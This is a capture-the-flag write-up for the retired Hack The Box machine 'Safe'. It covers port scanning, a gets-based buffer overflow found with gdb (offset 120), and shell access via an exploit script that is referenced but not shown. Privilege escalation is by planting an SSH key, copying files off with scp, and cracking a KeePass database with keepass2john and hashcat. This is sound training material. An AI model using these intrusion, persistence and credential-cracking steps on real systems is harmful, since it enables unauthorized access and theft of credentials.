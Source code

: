 # Safe

This is the write-up for the box Safe that got retired at the 26th October 2019.
My IP address was 10.10.14.21 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.147    safe.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/safe.nmap 10.10.10.147
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is the Apache2 Default Page and nothing else important.
When looking at the source code, there is a comment that is not default that says:
> <!-- 'myapp' can be downloaded to analyze from here its running on port 1337 -->

We can confirm that port 1337 is open with **Nmap**:
```markdown
nmap -p 1337 -sC -sV 10.10.10.147
```

```markdown
PORT     STATE SERVICE
1337/tcp open  waste
```

## Checking port 1337

When connecting to port 1337 via **Netcat**, it displays the output of the `uptime` command and then asks the question:
> What do you want me to echo back?

```markdown
nc 10.10.10.147 1337
```

We can input something and the input string gets echoed back. Simple command injection tricks don't seem to work, so we need to download the file and analyze it.

### Analyzing the app

The file _myapp_ can be downloaded from the initial web page:
```markdown
http://10.10.10.147/myapp
```

It is an ELF file that does the same thing as the service on port 1337, which means that we need to analyze this and then exploit the real service.
I use **gdb** and **radare2** to analyze this.

When looking at the _main function_, we can immediately see that it is vulnerable to a **Buffer Overflow** as it uses the `gets` and `puts` functions.

![Main function](https://kyuu-ji.github.io/htb-write-up/safe/safe_binary-1.png)

So lets execute this with a long string to overflow it on **gdb with gef installed**:
```markdown
(gdb) run

What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This results in a _Segmentation Fault_.
In order to see where we return, we need to put a pattern on this buffer.

```markdown
(gdb) pattern create 200
(gdb) pattern search $rsp
```

Running this again with the newly created pattern, it tells us that it found the _Offset on 120 (little-endian)_.
So we can put a memory address after 120, then we can continue the execution of the program.

With the following pattern we can see the registers:
```markdown
python -c 'print("A"\*120 + "B"\*8 + "C"\*8)

# Pattern
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

![Register of RSP](https://kyuu-ji.github.io/htb-write-up/safe/safe_binary-2.png)

To write a script to exploit this, we need the starting address of the main function, which is at _0x40115f_.
Our goal is to hijack the system call `uptime` that we saw earlier, by putting our own string inside of _RDI_.

I wrote a Python exploit script that can be found in this repository called **safe_exploit.py**.
```markdown
python3 safe_exploit.py
```

After running the script, it opens a connection on the server and we get command execution.

## Privilege Escalation

We started a shell on the box as the user called _user_.
Before we look for an attack surface, it would be practical to drop some SSH keys on the box to get a stable SSH connection.
```markdown
ssh-keygen -f safe

chmod 600 safe
```

Copying the contents of _safe.pub_ on the box into the file _/.ssh/authorized_keys_ and we can login via SSH:
```markdown
ssh -i ssh/safe user@10.10.10.147
```

Looking at the home directory of the user, there are six _JPG image files_ and one _.kdbx file_ which is the extension for **KeePass databases**.
Downloading all files:
```markdown
scp -i ../ssh/safe user@10.10.10.147:* .
```

The images look like normal images and don't have any special metadata in them.
Lets extract the hash with the **KeePass module from JohnTheRipper**:
```markdown
keepass2john MyPasswords.kdbx > keepass_hashes
```

KeePass has the feature to use key files as the password. We can assume that the images could be potential key files for the database, so lets extract the hashes of those:
```markdown
for i in $(ls \*.JPG); do keepass2john -k $i MyPasswords.kdbx | sed "s/MyPasswords/$i/g"; done >> keepass_hashes
```

Now we got seven hashes in the _keepass_hashes_ file that we need to crack:
```markdown
hashcat -m 13400 -O keepass_hashes /usr/share/wordlists/rockyou.txt --user
```

A password from the file with the name _IMG_0547.JPG_ gets cracked and it is:
> bullshit

We can use either **kpcli** as a command line tool or the KeePass GUI tool to open the database.
The root password is in there but root login does not work but it is possible to use it to change the user with `su -` from _user_ to root!
